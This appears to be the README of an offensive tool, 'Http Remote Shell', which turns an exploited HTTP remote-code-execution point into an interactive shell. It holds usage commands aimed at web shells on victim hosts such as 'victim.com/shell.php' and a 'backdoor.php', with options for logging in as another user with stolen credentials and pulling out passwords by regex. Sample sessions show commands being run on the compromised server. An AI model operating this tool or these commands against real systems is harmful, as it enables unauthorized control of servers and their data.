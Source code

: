 # Http Remote Shell

## Introduction

This tool gives a basic command line interface of an exploited HTTP RCE.
This might be useful if no bind-shell, nor reverse-shell can be setup.

> [The tool spawns a TTY shell with `/usr/bin/script` to correct the error: `su: must be run from terminal`](https://stackoverflow.com/questions/36944634/su-command-in-docker-returns-must-be-run-from-terminal)

## Usage

```bash
$ python3 ./http_rce.py -h
$ python3 ./http_rce.py --url 'http://victim.com/shell.php?cmd=MY_RCE_CMD&foo=bar' --http-method GET --headers '{"Cookie": "admin", "Host": "127.0.0.1"}'
$ python3 ./http_rce.py --url 'http://victim.com/shell.php?cmd=MY_RCE_CMD&foo=bar' --http-method GET --username '<USER>' --password '<PASS>'
$ python3 ./http_rce.py --url 'http://victim.com/shell.php?cmd=MY_RCE_CMD&foo=bar' --http-method GET --username '<USER>' --password '<PASS>' --regex 'Password: (.*), plz dont share it' --proxy 127.0.0.1:8080
$ python3 ./http_rce.py --url 'http://victim.com/shell.php?foo=bar' --http-method POST --data '{"cmd": "MY_RCE_CMD", "admin": "true"}' --username '<USER>' --password '<PASS>'
```

The RCE's placeholder in the request MUST be `MY_RCE_CMD`.

## Examples

Running as default user (e.g. `www-data`):
```bash
$ python3 ./http_rce.py --url 'http://10.10.10.123/backdoor.php?c=MY_RCE_CMD' --http-method GET
bash > whoami
www-data

bash > ls
assets
css
index.php
js

bash >
```

Running as another user (e.g. `foo`):
```bash
$ python3 ./http_rce.py --url 'http://10.10.10.123/backdoor.php?cmd=MY_RCE_CMD&foo1=bar2' --http-method GET --username 'foo' --password 'bar123'
bash > whoami
foo

bash > ls
assets css index.php js

bash >
```
